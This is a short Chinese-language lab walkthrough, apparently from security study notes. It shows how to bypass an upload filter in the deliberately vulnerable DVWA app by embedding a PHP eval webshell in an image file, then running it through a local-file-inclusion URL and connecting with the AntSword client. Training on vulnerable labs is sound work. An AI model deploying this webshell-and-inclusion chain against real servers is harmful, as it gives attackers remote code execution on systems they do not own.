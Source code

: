 判断上传文件的后缀名是jpg|jpeg|png,同时根据getimagesize函数判断文件内容的前几个字符
所以将php文件修改为jpg结尾的文件是无法上传成功的，除非文件中包含图片的标识
有兴趣可研究：https://www.php.net/manual/en/function.getimagesize.php
制作一个图片包含文件内容即可（图片马）
随便用画图工具画个很小的图片文件。
执行命令：copy zero.png/b+ant.php/a shell.png
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/f16eaca051784e1193cc5a4b99ce658c.png)
将生成的shell.png上传，上传成功
或者在php一句话木马中添加gif等图片的标志即可

```
GIF89a
<?php eval($_POST['ant']); ?>
```
因为图片文件在访问时直接当图片处理无法解析jpg中的php一句话木马。
所有需要用之前的hign对应的包含漏洞
http://192.168.20.48/DVWA/vulnerabilities/fi/?page=file:///D:\green\wamp\www\DVWA\hackable\uploads\shell.png

注意需要从浏览器f12 copy一个页面菜单cookie值到蚁剑中
![请添加图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/b76d3e96bbf1546169dabe7ab2db9ae2.gif)
测试连接成功
> 这里我用postman或者hackbar之类的请求都无法正确请求，不知道蚁剑是怎么处理的
